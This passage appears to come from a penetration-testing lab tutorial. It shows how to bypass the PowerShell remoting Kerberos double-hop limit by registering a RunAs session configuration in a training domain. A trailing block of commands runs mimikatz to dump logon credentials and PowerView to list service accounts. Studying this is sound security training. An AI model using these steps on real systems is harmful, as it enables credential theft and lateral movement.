 One trick we can use here is registering a new session configuration using the [Register-PSSessionConfiguration](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/register-pssessionconfiguration?view=powershell-7.2) cmdlet.

```powershell
PS C:\htb> Register-PSSessionConfiguration -Name backupadmsess -RunAsCredential inlanefreight\backupadm

 WARNING: When RunAs is enabled in a Windows PowerShell session configuration, the Windows security model cannot enforce
 a security boundary between different user sessions that are created by using this endpoint. Verify that the Windows
PowerShell runspace configuration is restricted to only the necessary set of cmdlets and capabilities.
WARNING: Register-PSSessionConfiguration may need to restart the WinRM service if a configuration using this name has
recently been unregistered, certain system data structures may still be cached. In that case, a restart of WinRM may be
 required.
All WinRM sessions connected to Windows PowerShell session configurations, such as Microsoft.PowerShell and session
configurations that are created with the Register-PSSessionConfiguration cmdlet, are disconnected.

   WSManConfig: Microsoft.WSMan.Management\WSMan::localhost\Plugin

Type            Keys                                Name
----            ----                                ----
Container       {Name=backupadmsess}                backupadmsess
```

Once this is done, we need to restart the WinRM service by typing `Restart-Service WinRM` in our current PSSession. This will kick us out, so we'll start a new PSSession using the named registered session we set up previously.

After we start the session, we can see that the double hop problem has been eliminated, and if we type `klist`, we'll have the cached tickets necessary to reach the Domain Controller. This works because our local machine will now impersonate the remote machine in the context of the `backupadm` user and all requests from our local machine will be sent directly to the Domain Controller.

```powershell
PS C:\htb> Enter-PSSession -ComputerName DEV01 -Credential INLANEFREIGHT\backupadm -ConfigurationName  backupadmsess
[DEV01]: PS C:\Users\backupadm\Documents> klist

Current LogonId is 0:0x2239ba

Cached Tickets: (1)

#0>     Client: backupadm @ INLANEFREIGHT.LOCAL
       Server: krbtgt/INLANEFREIGHT.LOCAL @ INLANEFREIGHT.LOCAL
       KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
       Ticket Flags 0x40e10000 -> forwardable renewable initial pre_authent name_canonicalize
       Start Time: 6/28/2022 13:24:37 (local)
       End Time:   6/28/2022 23:24:37 (local)
       Renew Time: 7/5/2022 13:24:37 (local)
       Session Key Type: AES-256-CTS-HMAC-SHA1-96
       Cache Flags: 0x1 -> PRIMARY
       Kdc Called: DC01
```


[DEV01]: PS C:\Users\backupadm\Documents> cd 'C:\Users\Public\'
[DEV01]: PS C:\Users\Public> .\mimikatz "privilege::debug" "sekurlsa::logonpasswords" exit
[DEV01]: PS C:\Users\Public> tasklist /V |findstr backupadm
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> klist
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> Import-Module .\PowerView.ps1
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> get-domainuser -spn | select samaccountname
[DEV01]: PS C:\Users\Public> get-domainuser -spn | select samaccountname